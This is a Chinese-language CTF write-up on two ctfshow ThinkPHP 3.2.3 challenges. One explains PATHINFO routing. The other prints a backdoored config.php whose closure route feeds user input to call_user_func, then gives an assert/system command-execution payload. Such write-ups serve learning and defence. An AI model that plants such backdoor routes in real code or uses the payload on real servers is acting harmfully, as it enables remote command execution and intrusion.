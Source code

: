 ## web569（php3.2.3-pathinfo）
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638716246273-6e9090c4-283f-40b2-a2c3-7c88aa09807d.png#clientId=u3256b006-6ff0-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=200&id=uf08a038e&margin=%5Bobject%20Object%5D&name=image.png&originHeight=370&originWidth=1214&originalType=binary&ratio=1&rotation=0&showTitle=false&size=51039&status=done&style=none&taskId=u57793562-46a1-4e48-8a5d-8b143e67d91&title=&width=656)
pathinfo的思想类似于flask框架，可以说是虚拟路由，在被群主一顿教育之后可算是明白了个大概555
比如在flask中，前端给个虚拟路由，后端就会根据这个路由去执行对应的方法；pathinfo的原理也类似，目的是用来弥补php的路由缺点，普通的路由访问是按照文件所在文件夹的位置而直接访问，而在pathinfo模式下，传入url的路径并不是真实存在的，比如这个题，传入/Admin/Login/ctfshowLogin并不是说真的有这个文件路径，而是作为虚拟路由去执行模块/控制/方法，下面引用一下四种路径访问模式
> 在config目录下边来做修改 URL_MODEL的值，分别表述如下：
> 1、值为0   叫做普通模式。如：http://localhost/index.php?m=模块&a=方法
> 2、值为1   叫做pathinfo模式。如：http://localhost/index.php/模块/方法
> 3、值为2   叫做rewrite重写（伪静态） 可以自己写相关的rewrite规则，也可以使用系统为我们提供的rewrite规则隐藏掉index.php，生成：http://localhost/模块/方法
> 4、值为3   叫做兼容模式。当服务器上面不支持pathinfo模式的时候，但是你又在之前的路径访问格式上面，全部用的是pathinfo格式。那么它会提示你路径格式不正确。那么，你就可以用标号为3的兼容模式来处理。他的路径访问类似于http://localhost/index.php?s=模块/方法

综上，payload：/index.php/Admin/Login/ctfshowLogin
## web570（php3.2.3-闭包路由）
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638718030726-b6554051-ddf1-493f-ace3-2ad85d16174e.png#clientId=u3256b006-6ff0-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=250&id=u0e49c695&margin=%5Bobject%20Object%5D&name=image.png&originHeight=359&originWidth=938&originalType=binary&ratio=1&rotation=0&showTitle=false&size=39027&status=done&style=none&taskId=ud6072c3c-6454-467d-b246-269eab1b554&title=&width=653)
下载源文件，翻了半天最终在\Application\Common\Conf\config.php找到了后门
```php
<?php
return array(
	//'配置项'=>'配置值'
	'DB_TYPE'               =>  'mysql',     // 数据库类型
    'DB_HOST'               =>  '127.0.0.1', // 服务器地址
    'DB_NAME'               =>  'ctfshow',          // 数据库名
    'DB_USER'               =>  'root',      // 用户名
    'DB_PWD'                =>  'ctfshow',          // 密码
    'DB_PORT'               =>  '3306',        // 端口
    'URL_ROUTER_ON'   => true, 
	'URL_ROUTE_RULES' => array(
    'ctfshow/:f/:a' =>function($f,$a){
    	call_user_func($f, $a);
    	}
    )
);
```
重点在12行，闭包定义的参数传递在有规则路由和正则路由两种，这里的就是规则路由，访问形式就如/ctfshow/xxx/xxx这种，然后看调用函数，和前面php特性的题差不太多，payload：
GET：/index.php/ctfshow/assert/assert($_POST[a])
POST：a=system('tac /flag_is_here');
